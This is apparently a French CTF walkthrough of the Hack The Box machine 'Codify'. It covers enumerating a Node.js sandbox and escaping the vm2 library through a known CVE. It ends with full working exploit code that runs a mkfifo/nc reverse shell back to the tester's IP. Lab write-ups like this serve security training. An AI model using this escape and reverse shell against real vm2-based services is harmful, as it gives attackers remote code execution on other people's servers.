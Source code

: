 Nous identifions trois ports ouverts : 22 (SSH), 80 (HTTP) et 3000 (Node.js). Nous sommes redirigés vers `codify.htb` que j'ai ajouté à `/etc/hosts`.

```
sudo echo "10.10.11.239 codify.htb" | sudo tee -a /etc/hosts
```

## Enumération

Le site web est un service permettant de tester des codes Node.js dans un environnement sandbox.

![Codify Website](/images/HTB-Codify/codify-website.png)

En cliquant sur `Try it now`, un éditeur s'affiche, dans lequel le code peut être exécuté.

![Codify Sanbox Environment](/images/HTB-Codify/code-run.png)

La plateforme utilise une liste blanche de modules pour des raisons de sécurité.

![Codify Module Whitelist](/images/HTB-Codify/codify-limitations.png)

Dans la section "About Us", nous apprenons que la bibliothèque [vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16) est utilisée.

![Codify About Section](/images/HTB-Codify/codify-about.png)

## Accès Initial

En recherchant les vulnérabilités de vm2, nous trouvons [CVE-2023-3214](https://nvd.nist.gov/vuln/detail/CVE-2023-32314) et un PoC peut être trouvé [ici](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac). Ce programme nous permet d'échapper au sandbox et d'obtenir l'exécution de code à distance (RCE).

Après de multiples échecs, la recherche d'un reverse shell me mène à [cette](https://www.youtube.com/watch?v=_q_ZCy-hEqg&ab_channel=0xdf) vidéo de 0xdf où il explique les reverse shell `mkfifo`. Quelques reverse shells mkfifo sont disponibles [ici](https://www.oreilly.com/library/view/hands-on-red-team/9781788995238/b76e6441-5999-45e4-949e-bd332cb21cce.xhtml) et le premier finit par fonctionner. Voici le code complet.

> N'oubliez pas de modifier l'adresse IP et le numéro de port.

```Javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("rm -f /tmp/a; mkfifo /tmp/a; nc 10.10.14.13 9001 0</tmp/a | /bin/sh >/tmp/a 2>&1; rm /tmp/a ").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

